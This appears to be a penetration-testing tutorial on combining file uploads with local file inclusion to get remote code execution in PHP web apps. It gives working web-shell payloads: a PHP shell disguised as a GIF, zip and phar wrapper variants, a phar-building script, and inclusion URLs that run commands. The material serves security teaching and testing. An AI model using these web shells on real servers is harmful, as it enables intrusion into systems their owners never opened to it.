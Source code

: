 # LFI and File Uploads

File upload functionalities are common in modern web applications, allowing users to upload data for profile configuration and other purposes. However, this feature can be exploited by attackers, especially when combined with file inclusion vulnerabilities. This section discusses how to exploit file upload functionalities to achieve remote code execution.

***

### 🔍 Understanding File Upload Attacks

Even if a file upload form is not inherently vulnerable, if the uploaded files can be executed by the server, attackers can exploit this to run malicious code. The following functions allow for code execution when files are included:

| Function                  | Read Content | Execute | Remote URL |
| ------------------------- | ------------ | ------- | ---------- |
| **PHP**                   |              |         |            |
| include()/include\_once() | ✅            | ✅       | ✅          |
| require()/require\_once() | ✅            | ✅       | ❌          |
| **NodeJS**                |              |         |            |
| res.render()              | ✅            | ✅       | ❌          |
| **Java**                  |              |         |            |
| import                    | ✅            | ✅       | ✅          |
| **.NET**                  |              |         |            |
| include                   | ✅            | ✅       | ✅          |

#### Image Uploads

Image uploads are often considered safe, but if the file inclusion functionality is vulnerable, attackers can exploit this by uploading files that contain malicious code disguised as images.

***

### 🖼️ Crafting a Malicious Image

To create a malicious image that contains PHP code, we can use an allowed image extension and include the appropriate magic bytes. For example, to create a PHP web shell within a GIF file:

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file will appear as a valid image but will execute PHP code when included through an LFI vulnerability.

#### Uploading the Malicious Image

Upload the crafted image through the profile settings page:

```plaintext
http://<SERVER_IP>:<PORT>/settings.php
```

#### Including the Uploaded File

After uploading, we need to include the file using its path. Inspect the source code to find the uploaded file's URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Include the file through the LFI vulnerability:

```plaintext
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

***

### 📦 Alternative Techniques: Zip and Phar Uploads

#### Zip Uploads

If the initial method does not work, we can use the zip wrapper to execute PHP code. First, create a PHP web shell and zip it:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Upload the zip file and include it using the zip wrapper:

{% code overflow="wrap" %}
```plaintext
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
{% endcode %}

#### Phar Uploads

Another method involves using the phar wrapper. Create a PHP script to generate a phar file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

Compile it into a phar file and rename it:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload the phar file and include it:

{% code overflow="wrap" %}
```plaintext
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
{% endcode %}

***

### ⚠️ Important Notes

* The first method (malicious image upload) is the most reliable, while zip and phar methods serve as alternatives.
* Ensure that the web application allows the upload of the file types being exploited.
* Be aware of security measures that may block these types of uploads.

By understanding these techniques, security professionals can better protect against file upload vulnerabilities and ensure that web applications are secure from potential exploits.
